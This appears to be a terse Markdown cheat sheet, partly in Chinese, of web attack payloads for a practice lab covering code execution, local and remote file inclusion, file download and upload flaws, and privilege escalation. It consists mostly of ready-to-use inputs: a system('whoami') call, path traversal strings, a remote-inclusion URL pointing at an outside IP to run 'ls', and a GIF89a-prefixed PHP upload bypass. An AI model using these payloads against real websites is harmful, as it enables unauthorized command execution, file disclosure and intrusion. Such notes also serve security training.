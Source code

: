 ### exec eval

php代码执行

```php
system('whoami');
```

## File inclusion

### 本地文件包含

```js
?filename=../../../a.txt&submit=%E6%8F%90%E4%BA%A4
```

### 远程文件包含

```php
?filename=http://49.234.56.200/x.php?1=system('ls');&submit=%E6%8F%90%E4%BA%A4
```

## Unsafe Filedownload

```php
?filename=../../../index.php
```

## Unsafe Fileupload

### client check

客户端check

### MIMI Type

```js
Content-Type: image/jpeg
```

### getimagesize

```php
GIF89a
<?php phpinfo(); ?>
```

## Ove Permission

### 水平越权

修改用户名可查看其他用户信息
